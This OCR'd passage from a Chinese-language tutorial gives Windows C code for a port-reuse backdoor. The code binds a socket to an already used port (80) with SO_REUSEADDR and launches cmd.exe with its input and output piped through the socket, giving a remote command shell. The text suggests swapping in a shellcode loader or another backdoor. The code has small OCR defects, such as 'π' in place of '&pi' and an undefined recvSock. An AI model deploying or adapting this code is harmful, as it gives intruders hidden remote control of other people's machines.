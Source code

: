 listenSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0); 
设置 socket 可复用 SO_REUSEADDR

BOOL val = TRUE; 
    setsockopt(listenSock, SOL_SOCKET, SO_REUSEADDR, (char*)&val, sizeof(val)); 
设置IP和复用端口号，IP和端口号视情况而定。

sockaddr_in sockaaddr; 
   sockaaddr.sin_addr.s_addr = inet_addr("192.168.1.8"); 
   sockaaddr.sin_family = AF_INET; 
   sockaaddr.sin_port = htons(80); 
设置反弹的程序，以 cmd.exe 为例，首先创建窗口特性并初始化为 CreateProcess() 创建进程做准备，当 cmd.exe 的进程创建成功后，以 socket 进行数据通信交换，这里还可以换成其他程序,比如 Shellcode 小马接收器、写入文件程序、后门等等。

STARTUPINFO si; 
 ZeroMemory(&si, sizeof(si)); 
 si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES; 
 si.hStdError = si.hStdInput = si.hStdOutput = (void*)recvSock; 
 
 char cmdLine[] = "cmd"; 
 PROCESS_INFORMATION pi; 
 ret = CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, π);